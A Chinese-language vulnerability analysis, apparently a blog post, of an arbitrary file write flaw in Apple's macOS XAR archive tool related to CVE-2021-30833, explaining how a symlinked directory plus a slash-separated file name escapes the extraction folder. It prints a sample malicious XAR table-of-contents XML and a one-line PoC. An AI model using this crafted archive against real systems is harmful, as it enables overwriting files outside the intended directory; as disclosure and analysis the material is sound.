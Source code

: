 Apple macOS XAR 任意文件写入漏洞分析
==========================

0x01 前言
-------

2021 年 10 月，苹果发布了 [CVE-2021-30833 漏洞补丁](https://research.nccgroup.com/2021/10/28/technical-advisory-apple-xar-arbitrary-file-write-cve-2021-30833/)。这是是由于在处理目录链接时未正确处理路径分隔（正斜杠：/）字符造成的。在分析 CVE-2021-30833的补丁时，发现了一个新的漏洞，该漏洞在使用该程序解压缩恶意XAR存档时可能允许任意文件写入。

0x02 追溯CVE-2021-30833
---------------------

XAR是macOS中使用的一种文件归档格式。使用命令行实用程序提取XAR归档文件。XAR最初是在开源环境下开发的，然而原来的项目不再经常被维护。苹果拥有自己的XAR for macOS分支，该分支发布在苹果的开源网站上。该程序存在一个逻辑漏洞，允许将文件提取到目标文件夹之外，从而导致文件系统上任意位置的任意文件写入。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xar>
 <toc>
  <checksum style="sha1">
   <offset>0</offset>
   <size>20</size>
  </checksum>
  <file id="1">
   <link type="directory">/tmp/</link>
   <type>symlink</type>
   <name>x</name>
  </file>
  <file id="2">
   <type>directory</type>
   <name>x</name>
   <file id="3">
    <data>
     <length>6</length>
     <encoding style="application/octet-stream"/>
     <offset>20</offset>
     <size>6</size>
     <extracted-checksum style="sha1">这里是sha-1加密</extracted-checksum>
     <archived-checksum style="sha1">这里是sha-1加密</archived-checksum>
    </data>
    <type>file</type>
    <name>foo</name>
   </file>
  </file>
 </toc>
```

XAR存档格式支持对文件和目录路径进行存档和读取。读取包含目录路径和与目录符路径名相同的目录中的文件的文件时，将用原目录覆盖目录路径。这可以防止恶意创建的归档文件或目录。

但是，允许在`<name></name>`中指定以正斜杠`/`分隔的路径.只要该路径存在于当前目录中，就可以创建一个文件。其中包含一个目录符号链接，也包含一个带有指向提取的符号链接目录的name属性的文件。通过以这种方式恶意利用符号链接目录，我们可以将任意文件写入文件系统上的任何目录，前提是用户具有**写入权限**。

**利用此漏洞的恶意文件的Poc示例：**`<name>x/foo</name>`
